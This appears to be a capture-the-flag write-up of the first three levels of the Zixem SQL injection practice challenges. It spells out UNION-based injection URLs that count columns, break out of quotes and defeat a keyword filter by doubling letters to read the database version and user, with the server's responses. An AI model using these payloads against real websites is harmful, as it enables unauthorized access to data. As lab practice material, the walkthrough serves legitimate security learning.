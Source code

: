# Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

# Reference Table:
- [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
- [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
- [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
- [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-4)
- [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-5)
- [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-6)
- [Level 7](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-7)
- [Level 8](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-8)
- [Level 9](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-9)

===========================================================================================================  

## [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
Start:  
`[https://zixem.altervista.org/SQLi/level1.php?id=1](https://zixem.altervista.org/SQLi/level1.php?id=1)`  
> - **Item ID:** 1
> - **Price:** 20$

=> I guess the Query can be:  
`SELECT * FROM <db> WHERE id=1`  
=> We should add `UNION SELECT 1,2;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns **Item ID:**
> - **Price:** $

=> So it doesn't have 2 columns, let's try again with more to see if the error still exist.  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

Ok let's extract *version()* and *user()*:  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
Start:  
`[https://zixem.altervista.org/SQLi/level2.php?showprofile=4](https://zixem.altervista.org/SQLi/level2.php?showprofile=4)`  
> - **User-ID:** 4
> - **Username:** ZiX-M
> - **Age:** 17

=> Test with prev payload:  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> Nothing to show.

=> It shows nothing. That means it can be take string instead of integer, so we have to add `'` into our payload:  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1

=> OK, so we have problem with `apostrophe (')`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--%27`
> The used SELECT statements have a different number of columns

=> It is ok now, but we have select wrong number of columns:  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3,4--%27`
> - **User-ID:** 1
> - **Username:** 2
> - **Age:** 3

=> It is Done. Let's grep the *version()* & *user()*:  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> - **User-ID:** 5.6.33-log
> - **Username:** zixem@localhost
> - **Age:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
Start:  
`[https://zixem.altervista.org/SQLi/level3.php?item=3](https://zixem.altervista.org/SQLi/level3.php?item=3)`  
> - **ItemID:** 3
> - **Item Name:** Laptop
> - **Seller:** Team Digi7al

=> Test with prev Payload:  
`https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'uni select version(),user(),3,4--''' at line 1

=> The error message tells us that the statement is being interpreted as `"uni select version(),user(),3,4--''"`, which means that the `on` of union is being filtered out. To combat this, we can add another `on`, so that even after it is removed, the statement still reads union:  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNIONON%20SELECT%20version(),user(),3,4--%27`
> - **ItemID:** 5.6.33-log
> - **Item Name:** zixem@localhost
> - **Seller:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  
